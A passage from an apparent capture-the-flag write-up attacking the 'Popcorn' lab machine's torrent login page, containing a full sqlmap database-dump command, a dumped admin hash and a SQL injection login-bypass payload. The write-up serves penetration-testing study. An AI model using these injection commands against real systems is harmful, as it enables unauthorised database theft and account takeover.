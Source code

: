 ```
| GLOBAL_VARIABLES                      |
| KEY_COLUMN_USAGE                      |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| STATISTICS                            |
| TABLES                                |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| VIEWS                                 |
+---------------------------------------+
```

Lets get all the goodies

```
sqlmap -u http://$POPCORN/torrent/login.php --data="password=pwnd&username=pwnd" --method POST --dbms MySQL --thread=5 -a
```

This takes a little while, but eventually from __~/.sqlmap/output/10.10.10.6/dump/torrenthoster/users.csv__ I get the admin account details: 

``` csv
id,email,joined,userName,password,privilege,lastconnect
3,admin@yourdomain.com,2007-01-06 21:12:46,Admin,d5bfedcee289e5e05b86daad8ee3e2e2,admin,2007-01-06 21:12:46
```

Normally at this point I'd fire the password hash `d5bfedcee289e5e05b86daad8ee3e2e2` through a decrypter but it isn't nesessary to get logged into the app as admin.

Because the injection point was in the login and it responded to boolean sqli on the username variable I can try a blind login.

Now at this point an option a more aggressive option would be to force a shell with sqlmap's os-shell flag. I'll admit I tried it but struggled to find a writable directory for the exploit to work. 

Attacking this way isn't my strong suit, the OSCP certification doesn't allow autopwn attacks with this tool so I'm not so familar with the nuance of the approach. I park this vector to go back to and research if I get no where with the SQLi.

Going to the login page on the site I try the following username:

```
Admin' or 1=1; #
```
